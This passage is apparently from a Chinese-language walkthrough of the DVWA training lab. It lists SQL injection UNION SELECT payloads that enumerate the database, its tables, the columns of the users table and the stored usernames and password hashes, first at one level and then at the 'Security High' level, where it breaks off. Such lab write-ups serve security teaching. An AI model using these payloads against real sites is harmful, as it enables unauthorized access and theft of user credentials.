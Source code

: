 

```
1 union select 1,database()#
```

爆出库名`dvwa`



```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`



```
1 union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`



```
1 union select user,password from users#
```

获取账号密码



### Security High

输入

```
1'
```

报错，所以还是一样



```
1' union select 1,database()#
```

爆出库名为`dvwa`



```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`



```
1' union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```
